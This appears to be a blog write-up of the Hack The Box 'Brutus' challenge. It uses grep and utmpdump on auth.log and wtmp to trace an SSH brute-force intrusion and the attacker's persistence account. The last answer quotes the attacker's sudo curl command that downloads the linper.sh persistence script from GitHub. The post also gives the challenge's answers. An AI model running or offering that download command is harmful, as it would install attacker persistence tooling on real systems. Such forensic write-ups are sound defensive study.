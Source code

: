 ```yaml
---
layout: post
title: "Brutus"
author: "Nicholas Coleman"
date: 2025-03-24
tags: hackthebox
---
```

## Brutus

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

In order to find the attacking IP address, the first thing to do would be to look for any signs of a brute force attack in the log file. 

I navigated to the directory containing the auth.log file, and did a grep search for any "Failed password" errors. 

![failed password](/security.github.io/images/Brutus/failedpassword.png)

Bingo! `65.2.161.68` is the IP address used by the brute force attacker. The amount of attempts is solid proof of a brute-force attack itself.

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**

Doing another grep to look for any signs of a successful attempt is the easiest thing to do here. Luckily, I was able to do so.

![accepted password](/security.github.io/images/Brutus/acceptedpassword.png)

The first time that `65.2.161.68` was able to succesfully login to the server was at `06:31:40`, when they logged in as the `root` user.

**Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**

The first thing to do is look at the wtmp log using the utmpdump tool.

![utmpdump](/security.github.io/images/Brutus/utmpdump.png)

`2024-03-06T06:32:45` is the timestamp when the attacking IP address first logs in manually.

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**

![grep_root](/security.github.io/images/Brutus/grep_root.png)

From doing a grep search on the root user, I was able to see the first time that the password attempt was successful for the attacker was at `06:32:44`.

The message: `systemd-logind[411]: New session 37 of user root.` indicates that the ssh login session for the attacker is 37.

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**

cyberjunkie.

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**

Looking at the Enterprise Matrix and then navigating to the Persistence tab, I was able to see the "Create Account" sub-technique.

![create_account](/security.github.io/images/Brutus/create_account.png)

The sub-ID for creating a new local account was `T1136.001`.

**What time did the attacker's first SSH session end according to auth.log?**

Since we know that ssh session 37 belongs to the attacker, I did a grep search on session 37 and found out the session ended at `06:37:24`. 

![session_end](/security.github.io/images/Brutus/session37_end.png)

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**

![last_command](/security.github.io/images/Brutus/last_command.png)

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` is the full command.
